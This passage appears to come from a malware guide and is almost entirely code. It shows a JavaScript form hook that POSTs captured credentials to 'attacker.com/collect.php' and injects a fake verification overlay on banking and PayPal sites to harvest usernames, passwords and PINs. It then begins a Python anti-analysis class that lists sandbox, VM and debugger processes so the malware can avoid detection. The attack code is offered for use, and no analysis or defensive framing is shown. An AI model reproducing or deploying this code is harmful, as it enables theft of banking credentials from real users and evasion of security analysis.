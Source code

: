 ```javascript
        }
        
        // Send stolen credentials to attacker server
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'http://attacker.com/collect.php', true);
        xhr.setRequestHeader('Content-Type', 'application/json');
        xhr.send(JSON.stringify(credentials));
        
        // Continue with original form submission
        originalSubmit.call(this);
    };
    
    // Monitor for banking websites
    if (window.location.hostname.includes('bank') || 
        window.location.hostname.includes('paypal') ||
        window.location.hostname.includes('chase')) {
        
        // Inject fake login form
        injectFakeForm();
    }
})();

function injectFakeForm() {
    var overlay = document.createElement('div');
    overlay.innerHTML = `
        <div style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; 
                    background: rgba(0,0,0,0.8); z-index: 9999;">
            <div style="position: absolute; top: 50%; left: 50%; transform: translate(-50%, -50%);
                        background: white; padding: 20px; border-radius: 5px;">
                <h3>Security Verification Required</h3>
                <form id="securityForm">
                    <input type="text" placeholder="Username" name="username" required><br>
                    <input type="password" placeholder="Password" name="password" required><br>
                    <input type="text" placeholder="PIN" name="pin" required><br>
                    <button type="submit">Verify</button>
                </form>
            </div>
        </div>
    `;
    document.body.appendChild(overlay);
}
```

### 6. Anti-Analysis and Evasion Techniques
```python
#!/usr/bin/env python3
import os
import time
import psutil
import hashlib

class AntiAnalysis:
    def __init__(self):
        self.sandbox_processes = [
            'vboxservice.exe', 'vmtoolsd.exe', 'vmwaretray.exe',
            'vmwareuser.exe', 'sandboxie.exe', 'wireshark.exe',
            'fiddler.exe', 'procmon.exe', 'regmon.exe'
        ]
        
        self.analysis_tools = [
            'ollydbg.exe', 'ida.exe', 'ida64.exe', 'ghidra.exe',
            'x32dbg.exe', 'x64dbg.exe', 'cheatengine.exe'
        ]
```